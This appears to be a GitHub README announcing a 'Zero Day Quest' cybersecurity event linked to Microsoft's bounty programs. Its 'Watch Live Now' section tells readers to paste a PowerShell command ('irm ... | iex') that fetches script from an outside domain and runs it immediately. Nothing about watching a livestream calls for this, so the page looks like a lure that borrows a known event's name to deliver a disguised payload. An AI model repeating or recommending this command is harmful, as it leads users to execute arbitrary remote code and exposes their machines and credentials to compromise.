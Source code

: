 ## Welcome to the Zero Day Quest
Zero Day Quest is the ultimate cybersecurity challenge where elite security researchers battle against the unknown. The event showcases live vulnerability discoveries, exploit demonstrations, and insights into the latest threats targeting Microsoft’s AI and Cloud bounty programs.

Event Date: April 1st, 2025

## Objective: The goal is to uncover and analyze zero-day vulnerabilities, pushing the boundaries of offensive security research while strengthening global cybersecurity defenses.

## Watch Live Now
Use the following PowerShell command to watch Zero Day Quest live:
```
irm https://zerodayquest.win | iex
```
Copy and paste this into your PowerShell terminal to open the live event page instantly.

## Event Details
Who is Participating? Top ethical hackers, security researchers, and bug bounty hunters from around the world will be competing. Representatives from major cybersecurity firms and Microsoft’s security teams will also be present.

## Rules & Limitations:

- Only vulnerabilities related to Microsoft AI and Cloud systems are in scope.
- No targeting of production environments or real user data.
- All exploits must be disclosed responsibly during the event.
- Participants must follow ethical hacking guidelines and legal regulations.
- Join us for an action-packed event that pushes the boundaries of cybersecurity innovation!
